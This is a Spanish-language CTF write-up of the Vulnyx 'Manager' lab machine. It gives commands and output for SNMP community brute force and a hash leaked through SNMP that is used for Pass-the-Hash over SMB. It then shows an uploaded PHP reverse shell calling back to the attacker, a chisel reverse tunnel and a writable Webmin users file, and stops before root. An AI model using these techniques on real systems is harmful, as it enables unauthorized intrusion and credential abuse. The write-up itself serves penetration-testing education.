+++
author = "Andrés Del Cerro"
title = "Vulnyx: Manager Writeup | Hard"
date = "2025-01-02"
description = ""
tags = [
    "Vulnyx",
    "Manager",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "onesixtyone",
    "SNMP Enumeration",
    "Information Disclosure",
    "SMB Enumeration",
    "Pass The Hash",
    "Arbitrary File Upload",
    "Virtual Hosting Fuzzing",
    "Reverse Port Forwarding",
    "Enumerating Webmin",
    "Updating Webmin password",
    "Misconfigured Webmin Configuration File"
]

+++

# Vulnyx: Manager Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Manager"** on Vulnyx. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a $TARGET --ulimit 5000 -g
192.168.2.8 -> [22,4445,80]
```

```console
nmap -p22,4445,80 -sCV $TARGET -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 15:02 CET
Nmap scan report for 192.168.2.8
Host is up (0.00039s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp   open  http         nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0
4445/tcp open  microsoft-ds
| fingerprint-strings:
|   SMBProgNeg:
|     SMBr
|_    "3DUfw
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4445-TCP:V=7.94SVN%I=7%D=1/2%Time=67769C9C%P=x86_64-pc-linux-gnu%r(
SF:SMBProgNeg,51,"\0\0\0M\xffSMBr\0\0\0\0\x80\0\xc0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0@\x06\0\0\x01\0\x11\x07\0\x03\x01\0\x01\0\0\xfa\0\0\0\0\x01\0\0\0\
SF:0\0p\0\0\0\0\0\0\0\0\0\0\0\0\0\x08\x08\0\x11\"3DUfw\x88");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.23 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn $TARGET -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 15:03 CET
Nmap scan report for 192.168.2.8
Host is up (0.00037s latency).
Not shown: 1492 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
1346/udp  closed alta-ana-lm
1457/udp  closed valisys-lm
10000/udp open   ndmp
27182/udp closed unknown
33355/udp closed unknown
41370/udp closed unknown
54925/udp closed unknown
MAC Address: 08:00:27:EC:52:4B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.97 seconds
```

Vemos varias cosas interesantes del escaneo inicial, primero por TCP vemos lo que parece ser un servicio SMB expuesto aunque por un puerto poco usual. Además por UDP vemos un servicio SNMP expuesto y un servicio NDMP que es un protocolo para controlar copias de seguridad entre varios espacios de almacenamiento en red.

# SMB Enumeration (failed)
Podemos intentar enumerar el SMB haciendo uso de una sesión nula pero vemos que no tenemos suerte ni con `smbmap` ni con `smbclient`.
```console
➜  scan smbclient -N -L \\192.168.2.8 -p 4445
session setup failed: NT_STATUS_LOGON_FAILURE
➜  scan smbmap -H 192.168.2.8 -u '' -p '' -P 4445

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 0 hosts serving SMB
```

# HTTP Enumeration
`whatweb` no nos reporta nada interesante sobre el servicio web.
```console
whatweb http://192.168.2.8
http://192.168.2.8 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[192.168.2.8], nginx[1.18.0]
```

Así se ve el sitio web, parece que es una página web por defecto que creo que es la de `nginx`, no recuerdo bien ahora mismo, pero bueno, esto es irrelevante ya que sabemos que el servidor web es `nginx`.


Podemos probar a fuzzear recursos con `feroxbuster` pero no encontramos nada interesante.

```console
feroxbuster -u http://192.168.2.8/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.2.8/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       28w      186c http://192.168.2.8/
[####################] - 18s   220547/220547  0s      found:1       errors:0
[####################] - 17s   220547/220547  12698/s http://192.168.2.8/
```

También podemos intentar fuzzear por extensiones para intentar encontrar algún fichero interesante, pero no encontramos nada tampoco.
```console
feroxbuster -u http://192.168.2.8/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -x php,html,txt,tar,gz

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.2.8/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, tar, gz]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       28w      186c http://192.168.2.8/
200      GET        7l       28w      186c http://192.168.2.8/index.html
```

Otra cosa que podríamos comprobar es fuzzear por subdominios pero para ello primero debemos comprobar que se está utilizando Virtual Hosting por detrás y no tenemos un dominio, por lo cual por ahora no podemos hacer nada mas.

# SNMP Enumeration
## Obtaining a valid community string w/onesixtyone
Con `onesixtyone` intenté conseguir alguna Community String para enumerar el servicio SNMP, probando dos de las listas mas comunes de communty strings, tuve suerte y encontré la community string `crowley`

```console
onesixtyone 192.168.2.8 -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings.txt -w 100
Scanning 1 hosts, 120 communities
➜  content onesixtyone 192.168.2.8 -c /usr/share/wordlists/seclists/Discovery/SNMP/snmp-onesixtyone.txt -w 100
Scanning 1 hosts, 3218 communities
192.168.2.8 [crowley] Linux manager 5.10.0-33-amd64 #1 SMP Debian 5.10.226-1 (2024-10-03) x86_64
```

# snmpbulkwalk it and search!
Ahora con `snmpbulkwalk` podemos enumerar la información que se transmite utilizando esta community string.

```console
snmpbulkwalk -v2c -c crowley 192.168.2.8 | less
```

Primero encontramos algo interesante, un dominio llamado `management.nyx`, así que lo vamos a añadir al `/etc/hosts`
```console
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (120738) 0:20:07.38
SNMPv2-MIB::sysContact.0 = STRING: root
SNMPv2-MIB::sysName.0 = STRING: Manager
SNMPv2-MIB::sysLocation.0 = STRING: management.nyx
```

También encontramos varios demonios en ejecución que me resultan interesantes, principalmente `smbserver` que es de la suite de `impacket`, esto me resulta interesante ya que se puede configurar para que se pueda iniciar sesión con el uso de unas credenciales "hardcodeadas" en la línea de ejecución del comando, y por SNMP se suele transmitir todos los "cmdline" de los demonios que están ejecución, es decir, la línea con las que han sido invocados.
```
HOST-RESOURCES-MIB::hrSWRunName.390 = STRING: "rsyslogd"
HOST-RESOURCES-MIB::hrSWRunName.395 = STRING: "systemd-logind"
HOST-RESOURCES-MIB::hrSWRunName.401 = STRING: "snmpd"
HOST-RESOURCES-MIB::hrSWRunName.403 = STRING: "cron"
HOST-RESOURCES-MIB::hrSWRunName.405 = STRING: "agetty"
HOST-RESOURCES-MIB::hrSWRunName.412 = STRING: "sh"
HOST-RESOURCES-MIB::hrSWRunName.416 = STRING: "sshd"
HOST-RESOURCES-MIB::hrSWRunName.421 = STRING: "smbserver.py"
HOST-RESOURCES-MIB::hrSWRunName.447 = STRING: "nginx"
HOST-RESOURCES-MIB::hrSWRunName.456 = STRING: "nginx"
```

También me llama la atención el `php-fpm7.4`, esto significa que el servidor `nginx` admite PHP por lo cual quizás existan algunos recursos PHP en algún lugar.

Y para terminar vemos un script en `perl` llamado `miniserv.pl` que no sabemos que es pero que nos podemos intuir que es una instancia de `Webmin` ya que este es el nombre del servidor web que se incluye.
```
HOST-RESOURCES-MIB::hrSWRunName.462 = STRING: "php-fpm7.4"
HOST-RESOURCES-MIB::hrSWRunName.463 = STRING: "php-fpm7.4"
HOST-RESOURCES-MIB::hrSWRunName.732 = STRING: "exim4"
HOST-RESOURCES-MIB::hrSWRunName.1110 = STRING: "kworker/0:1-events"
HOST-RESOURCES-MIB::hrSWRunName.1144 = STRING: "kworker/u2:0-flush-8:0"
HOST-RESOURCES-MIB::hrSWRunName.1165 = STRING: "kworker/0:2-ata_sff"
HOST-RESOURCES-MIB::hrSWRunName.1202 = STRING: "kworker/0:3-events"
HOST-RESOURCES-MIB::hrSWRunName.1212 = STRING: "miniserv.pl"
```

Un poco mas abajo encontramos lo que parece un hash NTLM (LM), podríamos intentar crackearlo o hacer Pass The Hash ya que también tenemos el usuario `crow`.
```console
HOST-RESOURCES-MIB::hrSWRunParameters.405 = STRING: "-o -p -- \\u --noclear tty1 linux"
HOST-RESOURCES-MIB::hrSWRunParameters.412 = STRING: "-c /usr/local/bin/smbserver.py resource /var/www/html/manager_backup -username crow -hashes ':F9FE0310AF66C797A73CB60B1953FCD7' "
HOST-RESOURCES-MIB::hrSWRunParameters.416 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.421 = STRING: "/usr/local/bin/smbserver.py resource /var/www/html/manager_backup -username crow -hashes :F9FE0310AF66C797A73CB60B1953FCD7 -smb2"
```

Un poco mas abajo podemos confirmar que existe una instancia de `Webmin`
```console
HOST-RESOURCES-MIB::hrSWRunParameters.1202 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1212 = STRING: "/usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf"
```

Un poco mas abajo también podemos ver los paquetes instalados en el sistema y podemos ver que la versión de `Webmin` instalada es la `2.202`
```console
HOST-RESOURCES-MIB::hrSWInstalledName.556 = STRING: "webmin_2.202_all"
```

Volviendo al hash encontrado, podemos intentar crackearlo con `john` pero no tenemos suerte.
```console
john -w=/usr/share/wordlists/rockyou.txt hash --format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-01-02 15:31) 0g/s 17929Kp/s 17929Kc/s 17929KC/s      markinho..*7¡Vamos!
Session completed.
```

# SMB Enumeration (authenticated)
## Pass The Hash
Pero bueno, como tenemos el usuario podemos hacer Pass The Hash, podemos comprobar que el hash es válido con `netexec`
```console
nxc smb 192.168.2.8 -u crow -H 'F9FE0310AF66C797A73CB60B1953FCD7' --port 4445
SMB         192.168.2.8     4445   ssuhkqAV         [*] NpzPONLO (name:ssuhkqAV) (domain:lcmJGdXI) (signing:False) (SMBv1:True)
SMB         192.168.2.8     4445   ssuhkqAV         [+] lcmJGdXI\crow:F9FE0310AF66C797A73CB60B1953FCD7
```

## Enumerate all!
Ahora con `smbclient` podemos enumerar los recursos y vemos que existe un recurso llamado `RESOURCE` con un comentario que pone `backup`
```console
smbclient -L \\192.168.2.8 -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            Disk
	RESOURCE        Disk      backup
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.2.8 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```

Enumerando el recurso `IPC$` nos encontramos un directorio personal de un usuario donde podemos ver la flag de usuario.
```console
smbclient "\\\\192.168.2.8\\IPC$" -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> dir
  .selected_editor                   AN       66  Tue Aug  1 18:16:16 2023
  .profile                           AN      807  Sun Jan 15 13:58:06 2023
  .bash_history                      AN        0  Thu Jan  2 14:58:51 2025
  .bash_logout                       AN      220  Sun Jan 15 13:58:06 2023
  user.txt                           AN       33  Fri Nov 29 14:33:18 2024
  .bashrc                            AN     3526  Sun Jan 15 13:58:06 2023
```

Podemos descargarnos esta flag y visualizarla.
```console
smb: \> get user.txt
getting file \user.txt of size 33 as user.txt (4.0 KiloBytes/sec) (average 4.0 KiloBytes/sec)
```

```console
cat -p user.txt
331f2b89261b006...
```

Fuera de esto no encontramos nada mas relevante, enumerando el recurso `RESOURCE` vemos que no hay ningún archivo.
```console
smbclient \\\\192.168.2.8\\RESOURCE -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D     4096  Fri Nov 29 14:28:33 2024
  ..                                  D     4096  Fri Nov 29 14:26:22 2024

		148529400 blocks of size 1024. 14851044 blocks available
```

# Arbitrary File Upload -> Foothold
Podemos probar a subir un archivo, y vemos que podemos perfectamente subir un archivo.
```console
smb: \> put hash
putting file hash as \hash (4.6 kb/s) (average 4.6 kb/s)
smb: \> dir
  hash                               AN       33  Thu Jan  2 15:45:26 2025

		148529400 blocks of size 1024. 14851044 blocks available
```

Ahora bien, ¿Dónde estamos subiendo este contenido?, podemos recordar lo que vimos a través del SNMP y lo estamos subiendo al directorio `manager_backup` en la ruta `/var/www/html` por lo cual, podríamos acceder a este fichero que hemos subido a través del servidor web.
```text
HOST-RESOURCES-MIB::hrSWRunParameters.421 = STRING: "/usr/local/bin/smbserver.py resource /var/www/html/manager_backup -username crow -hashes :F9FE0310AF66C797A73CB60B1953FCD7 -smb2"
```

Y efectivamente, aquí esta el archivo que hemos subido.


Como antes hemos visto que el servidor web interpreta contenido PHP, vamos a subir un archivo PHP malicioso para compartirnos una reverse shell.

Primero vamos a descargarnos la [típica reverse shell de Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php) y a editarla poniendo la IP de nuestra máquina y el puerto por el que vamos a estar en escucha.


Vamos a cambiarla el nombre y a subirla.
```console
mv php-reverse-shell.php pointedshell.php
smbclient \\\\192.168.2.8\\RESOURCE -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> put pointedshell.php
putting file pointedshell.php as \pointedshell.php (536.3 kb/s) (average 536.3 kb/s)
```

Una vez subida, vamos a ponernos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Y vaya, no se está interpretando el archivo PHP y se me está descargando, esto puede ser por varias razones, quizás está habilitado solo algunas extensiones PHP, quizás solo en algunos sitios.


### Virtual Hosting Fuzzing 
Esto hizo que me acordase que ahora tenemos el dominio `management.nyx`, así que podemos intentar encontrar subdominios y comprobar si por detrás hay Virtual Hosting.

Vemos al cabo de un rato que no encontramos nada, esto puede ser o bien porque no existe Virtual Hosting, o porque la página raíz es la misma (o tiene el mismo número de caracteres) y yo estoy filtrando por caracteres.
```console
wfuzz --hh=186 -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.management.nyx' http://management.nyx
```

Por lo cual vamos a filtrar en el recurso de la reverse shell que hemos subido por el número de caracteres que tiene la reverse shell, esto lo hago para saber si existe Virtual Hosting y en alguno de estos subdominios se interpreta el PHP o directamente se muestra el fichero en texto claro.

Vemos que tenemos un subdominio `dev.management.nyx`, lo añadimos al `/etc/hosts`, y además confirmamos que en este subdominio si que se interpreta el código PHP.
```console
wfuzz --hh=5492 -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.management.nyx' http://management.nyx/manager_backup/pointedshell.php
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://management.nyx/manager_backup/pointedshell.php
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000019:   200        2 L      14 W       92 Ch       "dev"
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...
```

Ahora si, si cargamos el recurso desde el navegador...


Podemos ver que ganamos acceso como el usuario `crow`
```console
(remote) crow@manager:/$ id
uid=1000(crow) gid=1000(crow) groups=1000(crow)
```

# Privilege Escalation

Vemos que no existe otro usuario con una bash a parte de `crow` y `root`
```console
(remote) crow@manager:/home$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
crow:x:1000:1000:crow:/home/crow:/bin/bash
```

## Reverse Port Forwarding w/chisel
Enumerando la máquina podemos ver que existe un puerto `10000/TCP` abierto que no hemos podido ver antes. Anteriormente veíamos este puerto abierto pero por UDP.
```console
(remote) crow@manager:/home$ ss -tulnp
Netid               State                Recv-Q               Send-Q                               Local Address:Port                                Peer Address:Port               Process
udp                 UNCONN               0                    0                                          0.0.0.0:68                                       0.0.0.0:*
udp                 UNCONN               0                    0                                          0.0.0.0:161                                      0.0.0.0:*
udp                 UNCONN               0                    0                                          0.0.0.0:10000                                    0.0.0.0:*
tcp                 LISTEN               0                    10                                       127.0.0.1:57895                                    0.0.0.0:*                   users:(("smbserver.py",pid=421,fd=5))
tcp                 LISTEN               0                    4096                                     127.0.0.1:10000                                    0.0.0.0:*
tcp                 LISTEN               0                    511                                        0.0.0.0:80                                       0.0.0.0:*                   users:(("nginx",pid=456,fd=6))
tcp                 LISTEN               0                    128                                        0.0.0.0:22                                       0.0.0.0:*
tcp                 LISTEN               0                    20                                       127.0.0.1:25                                       0.0.0.0:*
tcp                 LISTEN               0                    10                                       127.0.0.1:39577                                    0.0.0.0:*                   users:(("smbserver.py",pid=421,fd=4))
tcp                 LISTEN               0                    5                                          0.0.0.0:4445                                     0.0.0.0:*                   users:(("smbserver.py",pid=421,fd=3))
tcp                 LISTEN               0                    511                                           [::]:80                                          [::]:*                   users:(("nginx",pid=456,fd=7))
tcp                 LISTEN               0                    20                                           [::1]:25                                          [::]:*
```

Entonces vamos a subir a la máquina víctima el binario de `chisel` utilizando la función `upload` interna que tiene `pwncat-cs`
```console
(remote) crow@manager:/tmp$
(local) pwncat$ upload chisel
./chisel ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.7/8.7 MB • 2.3 MB/s • 0:00:00
[16:23:04] uploaded 8.65MiB in 4.05 seconds
```

En nuestra máquina de atacante, vamos a ponernos en escucha con `chisel` por el puerto 1234.
```console
/usr/share/chisel server -p 1234 --reverse
2025/01/02 16:23:38 server: Reverse tunnelling enabled
2025/01/02 16:23:38 server: Fingerprint sH4A1KPT1pJD+8nj/WuzW8pI1xc8ILso0o3mDa5vnAc=
2025/01/02 16:23:38 server: Listening on http://0.0.0.0:1234
```

Y para mi sorpresa, en la máquina atacante obtenemos el siguiente error.
```console
(remote) crow@manager:/tmp$ ./chisel 192.168.2.9:1234 10000:127.0.0.1:10000
Segmentation fault
```

Después de probar un rato me di cuenta de lo siguiente...
- Máquina atacante:
```console
md5sum chisel
ed8b9d38fe272f2692b47292e74a0352  chisel
```
- Máquina víctima:
```console
md5sum chisel
963ec05a4084469f5397ae465fd3516f  chisel
```

Por lo cual por alguna razón (primera vez que me pasa) no se está transmitiendo bien los archivos utilizando `pwncat-cs`.

Vamos a subir el `chisel` pero esta vez vamos a compartirlo por el puerto 8081 utilizando el módulo `http.server` de python.
```console
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Y ahora sí, en la máquina víctima tenemos el binario de `chisel`
```console
(remote) crow@manager:/tmp$ wget http://192.168.2.9:8081/chisel
--2025-01-02 17:00:23--  http://192.168.2.9:8081/chisel
Connecting to 192.168.2.9:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel'

chisel                                                     100%[======================================================================================================================================>]   8.25M  --.-KB/s    in 0.06s

2025-01-02 17:00:23 (129 MB/s) - 'chisel' saved [8654848/8654848]

(remote) crow@manager:/tmp$ chmod +x chisel
(remote) crow@manager:/tmp$ ./chisel

  Usage: chisel [command] [--help]

  Version: 1.9.1 (go1.21.0)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Nos ponemos en escucha por el puerto 1234 con `chisel` en nuestra máquina de atacante.
```console
/usr/share/chisel server -p 1234 --reverse
2025/01/02 17:00:54 server: Reverse tunnelling enabled
2025/01/02 17:00:54 server: Fingerprint WPwWfwckYNO8pJ9Q/l3++eSyRhcdUI2d2ypVLOYtr5c=
2025/01/02 17:00:54 server: Listening on http://0.0.0.0:1234
```

Ahora en la máquina víctima nos compartimos el puerto 10000 de la máquina víctima para que se convierta en el puerto 10000 de nuestra máquina local.
```console
./chisel client 192.168.2.9:1234 R:10000:127.0.0.1:10000
2025/01/02 17:01:24 client: Connecting to ws://192.168.2.9:1234
2025/01/02 17:01:24 client: Connected (Latency 1.21336ms)
```

Ahora podemos comprobar que este puerto está en escucha en nuestra máquina y podemos hacer un pequeño escaneo con `nmap` para saber que servicio corresponde a este puerto.
```console
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:42263         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::1234                 :::*                    LISTEN      345310/chisel
tcp6       0      0 :::10000                :::*                    LISTEN      345310/chisel
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

El escaneo reporta que es un servicio web y vemos que el servidor es `MiniServ` por lo cual probablemente es la instancia de `Webmin` que hemos detectado antes.
```console
nmap -p10000 -sCV 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 17:02 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00019s latency).

PORT      STATE SERVICE               VERSION
10000/tcp open  ssl/snet-sensor-mgmt?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.0 200 Document follows
|     Date: Thu, 2 Jan 2025 16:02:18 GMT
|     Server: MiniServ
|     Connection: close
|     Auth-type: auth-required=1
|     Set-Cookie: redirect=1; path=/; secure; httpOnly
|     Set-Cookie: testing=1; path=/; secure; httpOnly
|     X-Frame-Options: SAMEORIGIN
|     Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval'; frame-src 'self'; child-src 'self'
|     X-Content-Type-Options: nosniff
|     X-no-links: 1
|     Content-type: text/html; Charset=UTF-8
|     <!DOCTYPE HTML>
|     <html data-bgs="gainsboro" class="session_login">
|     <head>
|     <meta name="color-scheme" content="only light">
```

## Enumerating Webmin
`whatweb` no nos reporta nada interesante.
```console
whatweb http://127.0.0.1:10000
http://127.0.0.1:10000 [200 OK] Country[RESERVED][ZZ], HTTPServer[MiniServ], IP[127.0.0.1], Script, Title[200 &mdash; Document follows]
```

Aquí tenemos el panel de autenticación de `Webmin`


No tenemos credenciales para acceder, así que vamos a seguir enumerando.

## Updating Webmin password (Abusing Misconfigured Permissions)
Según [esta pregunta en StackOverFlow](https://stackoverflow.com/questions/36327209/creating-new-admin-webmin-user-in-shell) parece ser que `Webmin` utiliza un archivo en `/etc/webmin/miniserv.users` para dictar los usuarios de `Webmin`, al comprobar este archivo vemos que el único usuario habilitado es `crow`.
```console
(remote) crow@manager:/etc/webmin$ cat miniserv.users
crow:x:1000
```

Según la documentación se utiliza la contraseña de UNIX que tiene este usuario, pero vemos un pequeño fallo de seguridad, y es que podemos escribir este archivo.
```console
(remote) crow@manager:/etc/webmin$ ls -la miniserv.users
-rw----rw- 1 root bin 12 Nov 29 14:25 miniserv.users
```

